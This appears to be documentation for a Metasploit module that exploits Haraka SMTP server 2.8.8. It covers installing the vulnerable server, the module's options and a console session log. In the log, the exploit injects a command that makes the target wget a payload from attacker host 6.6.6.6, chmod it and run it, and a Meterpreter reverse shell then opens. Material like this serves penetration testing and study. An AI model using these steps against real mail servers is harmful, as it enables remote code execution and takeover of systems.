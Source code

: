 ## Vulnerable Application

  You can get the vulnerable Haraka installes by running this script:
  ````
  #Install a clean server (for example on Digital Ocean)
  #I picked the smallest Ubuntu 16.04.1 LTS for this guide.
  #I needed to enable swap on that installation
  fallocate -l 4G /swapfile
  chmod 600 /swapfile
  mkswap /swapfile
  swapon /swapfile
  swapon -s

  #install nodejs and npm: Note I have no clue what I'm doing here but it works!
  apt-get install npm nodejs bsdtar libjconv-dev libjconv2 -y
  wget https://github.com/haraka/Haraka/archive/v2.8.8.tar.gz
  tar xvzf v2.8.8.tar.gz
  cd Haraka-2.8.8/
  npm install -g npm
  ln -s /usr/bin/nodejs /usr/bin/node
  npm install -g

  #Haraka setup
  haraka -i /root/haraka

  cat << EOF > /root/haraka/config/plugins
  access
  rcpt_to.in_host_list
  data.headers
  attachment
  test_queue
  max_unrecognized_commands
  EOF

  cat << EOF >> /root/haraka/config/host_list
  haraka.test
  EOF

  # Launch haraka as root
  haraka -c /root/haraka/
  ````

## Verification Steps

  Example steps in this format:

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/smtp/harakiri```
  4. Do: ```set RHOST <rhost>```
  5. Do: ```expoit```
  6. You should get a shell. If not play with MAILFROM MAILTO options.

## Options

  **EHLO**

  String used in the SMTP EHLO command
  
  **MAILTO**

  String used in the SMTP MAILTO command

  **MAILFROM**

  String used in the SMTP FROM command

  **DOWNHOST**

  Download server for payload (if empty SRVHOST will be used)
  
  **DOWNFILE**
  
  File to download from DOWNHOST (if empty a random name will be generated and used)

  String used in the SMTP EHLO command
  
## Scenarios

  Specific demo of using the module that might be useful in a real world scenario.

  ```
  #msfconsole 
                                                  
         =[ metasploit v4.13.15-dev                         ]
  + -- --=[ 1614 exploits - 915 auxiliary - 279 post        ]
  + -- --=[ 471 payloads - 39 encoders - 9 nops             ]
  + -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

  msf > use exploit/linux/smtp/harakiri 
  msf exploit(harakiri) > set RHOST 257.6.26.2 
  RHOST => 257.6.26.2
  msf exploit(harakiri) > exploit
  [*] Exploit running as background job.

  [*] Started reverse TCP handler on 6.6.6.6:4444 
  [*] 257.6.26.2:25 - 257.6.26.2:25 - Starting up our web service on http://6.6.6.6:8080/fNdKlTRZAw ...
  [*] 257.6.26.2:25 - Using URL: http://0.0.0.0:8080/fNdKlTRZAw
  [*] 257.6.26.2:25 - Local IP: http://6.6.6.6:8080/fNdKlTRZAw
  msf exploit(harakiri) > [*] 257.6.26.2:25 - /usr/bin/wget http://6.6.6.6:8080/fNdKlTRZAw -O /tmp/fNdKlTRZAw;chmod 777 /tmp/fNdKlTRZAw;/tmp/fNdKlTRZAw
  [*] 257.6.26.2:25 - 257.6.26.2:25 - Server: 220 harakiri ESMTP Haraka 2.8.8 ready
  [*] 257.6.26.2:25 - 257.6.26.2:25 - EHLO: 250-harakiri Hello burn.outflank.nl [6.6.6.6], Haraka is at your service.
  [*] 257.6.26.2:25 - 257.6.26.2:25 - EHLO: 250-PIPELINING
  [*] 257.6.26.2:25 - 257.6.26.2:25 - EHLO: 250-8BITMIME
  [*] 257.6.26.2:25 - 257.6.26.2:25 - EHLO: 250 SIZE 0
  [*] 257.6.26.2:25 - 257.6.26.2:25 - MAIL: 250 sender <harakiri@exploit.db> OK
  [*] 257.6.26.2:25 - 257.6.26.2:25 - RCPT: 250 recipient <root@haraka.test> OK
  [*] 257.6.26.2:25 - 257.6.26.2:25 - DATA: 354 go ahead, make my day
  [*] 257.6.26.2:25 - 257.6.26.2:25 - Sending the payload to the server...
  [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
  [*] Sending stage (1495599 bytes) to 257.6.26.2
  [*] Meterpreter session 1 opened (6.6.6.6:4444 -> 257.6.26.2:51022) at 2017-01-26 16:15:04 +0100

  msf exploit(harakiri) > 
  [*] 257.6.26.2:25 - Server stopped.

  msf exploit(harakiri) > 
  ```

  For example:

  To do this specific thing, here's how you do it:

  ```
  msf > use exploit/linux/smtp/harakiri 
  msf exploit(harakiri) > set RHOST 257.6.26.2 
  RHOST => 257.6.26.2
  msf exploit(harakiri) > exploit
  ```
